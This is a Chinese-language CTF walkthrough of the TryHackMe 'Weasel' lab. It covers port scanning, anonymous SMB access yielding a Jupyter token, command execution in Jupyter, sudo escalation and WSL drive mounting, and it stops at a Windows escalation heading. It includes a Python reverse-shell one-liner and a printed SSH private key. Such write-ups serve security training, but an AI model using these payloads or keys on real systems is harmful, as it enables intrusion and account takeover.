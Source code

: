 ```yaml
---
sidebar_position: 131
tags: [Easy, Linux, 命令执行, SUDO]
title: "Weasel"
description: "Weasel"
sidebar_label: "Weasel"
slug: /tryhackme/131
---
```


# Weasel

![image-20240709150718304](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-150720.png)

## 端口扫描

```bash
root@ip-10-10-148-112:~/weasel# nmap -sTCV -p- --min-rate 1000 10.10.230.180

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-02 13:01 BST
Nmap scan report for ip-10-10-230-180.eu-west-1.compute.internal (10.10.230.180)
Host is up (0.00022s latency).
Not shown: 65520 closed ports
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
|_  256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (EdDSA)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-10-01T11:31:04
|_Not valid after:  2024-04-01T11:31:04
|_ssl-date: 2023-10-02T12:02:53+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8888/tcp  open  http          Tornado httpd 6.0.3
| http-robots.txt: 1 disallowed entry 
|_/ 
|_http-server-header: TornadoServer/6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:65:7F:DE:4F:F9 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: DEV-DATASCI-JUP, NetBIOS user: <unknown>, NetBIOS MAC: 02:65:7f:de:4f:f9 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-02 13:02:55
|_  start_date: 1600-12-31 23:58:45
```

## 139/445

```bash
root@ip-10-10-148-112:~/weasel# smbmap.py -H  10.10.230.180 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

                                                                                                    
[+] IP: 10.10.230.180:445	Name: ip-10-10-230-180.eu-west-1.compute.internal	Status: Guest session   	
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	datasci-team                                      	READ, WRITE	
	IPC$                                              	READ ONLY	Remote IPC
```

使用 SMB 工具连接我们的 datasci-team 的共享, 通过其共享

- 我看到到一个特殊的后缀 ipynb, 发现其属于jupyter 程序
- 发现一些特殊的文件 misc 下有一个 token,那么这应该是 jupyter 的访问 token

```bash
root@ip-10-10-148-112:~/weasel# smbclient \\\\10.10.230.180\\datasci-team -u anonymous
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct  2 13:29:10 2023
  ..                                  D        0  Mon Oct  2 13:29:10 2023
  .ipynb_checkpoints                 DA        0  Thu Aug 25 16:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 16:26:46 2022
  misc                               DA        0  Thu Aug 25 16:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 16:26:46 2022
  papers                             DA        0  Thu Aug 25 16:26:47 2022
  pics                               DA        0  Thu Aug 25 16:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 16:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 16:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 16:26:46 2022

		15587583 blocks of size 4096. 8948276 blocks available
smb: \> cd misc\
smb: \misc\> ls
  .                                  DA        0  Thu Aug 25 16:26:47 2022
  ..                                 DA        0  Thu Aug 25 16:26:47 2022
  jupyter-token.txt                   A       52  Thu Aug 25 16:26:47 2022
```

## 8888

访问 8888 端口我发现这就是 jupyter 网站, 并且其要求一个 token , 因此我利用在 SMB 服务得到的 token 成功访问

![image-20240709150742971](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-150744.png)

接着经过搜索我发现了利用其来执行命令的方式 [How to Execute Terminal Commands in Jupyter Notebook | Saturn Cloud Blog](https://saturncloud.io/blog/how-to-execute-terminal-commands-in-jupyter-notebook/)

![image-20240709150751566](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-150753.png)

## 后渗透

### dev-datasci (WSL)

我在此想利用上面获得的命令执行方式获取 Shell, 但是执行遇到点问题, 所以我直接转换方式直接使用 python 的reverse shell 进行连接

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.148.112",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![image-20240709150810628](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-150812.png)

### dev-datasci(WSL) —> root (WSL)

我发现用户存在 SUDO 特权并且可以以无密码的形式执行一个程序, 而且这个程程序恰好又不存在, 所以我们可以通过创建这个程序来实现提权

![image-20240709150818967](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-150820.png)

## 提醒

如果你此时查看你会发现你并没有获取到 flag, 所以猜测如下:

- docker 环境 : 没有 .docker 特殊文件, 所以排除

- WSL : 确认是在其下

    ```bash
    root@DEV-DATASCI-JUP:/# uname -a
    Linux DEV-DATASCI-JUP 4.4.0-17763-Microsoft #2268-Microsoft Thu Oct 07 16:36:00 PST 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```

### 第一种方式 (WSL 挂载)

我们可以将 Windows 的 C 盘来挂载在 Linux 中实现访问, 这样可以无视任务权限检查, 但是前提是我们在一个 root 的会话中, 否则无法实现挂载的需求

```bash
root@DEV-DATASCI-JUP:/# id
uid=0(root) gid=0(root) groups=0(root)
root@DEV-DATASCI-JUP:/# mount -t drvfs C: /mnt/c
root@DEV-DATASCI-JUP:/# cd /mnt/c
root@DEV-DATASCI-JUP:/mnt/c# ls
ls: cannot read symbolic link 'Documents and Settings': Permission denied
ls: cannot access 'pagefile.sys': Permission denied
'$Recycle.Bin'             PerfLogs        'Program Files (x86)'   Recovery                     Users     datasci-team
'Documents and Settings'  'Program Files'   ProgramData           'System Volume Information'   Windows   pagefile.sys
```

### 第二种方式 (Windows 提权)

在用户 dev-datasci 家目录下存在一个 SSH 密钥我们可以使用其进行连接

#### dev-datasci-lowpriv (Windows)

```bash
(remote) root@DEV-DATASCI-JUP:/home/dev-datasci# cat dev-datasci-lowpriv_id_ed25519 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+YwAAAKjQ358n0N+f
JwAAAAtzc2gtZWQyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+Yw
AAAED9OhQumFOiC3a05K+X6h22gQga0sQzmISvJJ2YYfKZWVSh7llJ7PMLrlRmFa3h1u/E
qiv502CASG53Mr4lKz5jAAAAI2Rldi1kYXRhc2NpLWxvd3ByaXZAREVWLURBVEFTQ0ktSl
VQAQI=
-----END OPENSSH PRIVATE KEY-----
```

![image-20240709150845835](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-150847.png)

#### dev-datasci-lowpriv (Windows) —> administrators(Windows)